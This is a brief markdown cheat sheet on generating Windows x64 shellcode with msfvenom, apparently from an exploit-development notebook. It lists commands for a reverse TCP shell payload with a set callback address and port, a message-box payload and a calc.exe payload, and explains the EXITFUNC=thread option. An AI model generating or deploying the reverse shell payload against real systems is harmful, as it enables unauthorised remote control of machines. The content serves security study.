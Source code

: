 ```yaml
---
description: 06/08/2022
---
```


# 🐚 Generating Shellcode w/ MSFVenom

## Examples

### Reverse Shells

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.76.128 LPORT=1337 -f c -b \x00\x0a\x0d\x20
```

### Windows Message Box

```
msfvenom -p windows/x64/messagebox EXITFUNC=thread -f c
```

### "Pop Calc"

```
msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f c
```

## Notes

{% embed url="https://www.hacking-tutorial.com/tips-and-trick/what-is-metasploit-exitfunc/" %}

Why `EXITFUNC=thread`? It will specify a DLL and function to call when the payload is complete.&#x20;

`thread` is the most used in exploitation scenarios where the exploited process runs the shellcode in a subthread and upon exiting this thread will result in a working application/system (clean exit).
